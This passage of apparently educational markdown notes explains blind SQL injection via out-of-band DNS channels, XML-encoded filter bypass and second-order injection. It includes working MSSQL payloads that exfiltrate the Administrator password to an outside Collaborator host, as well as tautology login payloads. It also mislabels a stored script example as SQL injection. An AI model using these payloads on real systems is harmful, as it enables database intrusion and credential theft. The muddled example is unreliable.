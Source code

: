 ## Exploiting blind SQL injection using out-of-band (OAST) techniques:
- The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie.
- Typically the most effective is DNS (domain name service) for this type of SQLi.
- The easiest and most reliable tool for using out-of-band techniques is Burp Collaborator.

- The techniques for triggering a DNS query are specific to the type of database being used. For example,
- the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:
- Injection: `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'-- `
- This causes the database to perform a lookup for the following domain: `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

## Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application
- Injection: `'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
- This input reads the password for the Administrator user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password: S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net

> Out-of-band (OAST) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel.


# SQL injection in different contexts:
- We can `perform SQL injection attacks using any controllable input` that is processed as a SQL query by the application.
- For example, `some websites take input in JSON or XML format and use this to query the database.`
- To bypass these filters by encoding or escaping characters in the prohibited keywords.
```xml
For example, the following XML-based SQL injection uses an XML escape sequence to encode the S character in SELECT:

<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>

This will be decoded server-side before being passed to the SQL interpreter.
```


# Second-order SQL injection:

## E. `Second Order SQLi/stored SQL injection/Persistent SQL Injection: takes user input & stores(in DB) it for future use.`
-  Application takes user input from an HTTP request(Input field) and stores(in DB) it for future use.
-  Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into an SQL query in an unsafe way.

>  Second-order SQL injection `occurs when user-supplied input is stored and later used in a SQL query without proper validation and sanitization.` 
-  <img width="500" alt="image" src="https://github.com/cybersome/CyberEssentials/assets/40174034/c90a6116-2d4c-43f1-86a6-c927b2cc9428">

### Examples:
1. `User Registration Form`: An attacker could register with a username containing a malicious payload, such as: `Username: ' OR '1'='1'; --`
- Later, when the application retrieves user details using the stored query, it becomes:  `SELECT * FROM users WHERE username = '' OR '1'='1'; --';`

2. `User Comments`: An attacker could submit a comment containing a malicious payload, such as: `Comment: <script>malicious_code();</script>` 
- Later, when the application retrieves and displays the comments using the stored query, it becomes: `INSERT INTO comments (content) VALUES ('<script>malicious_code();</script>');`
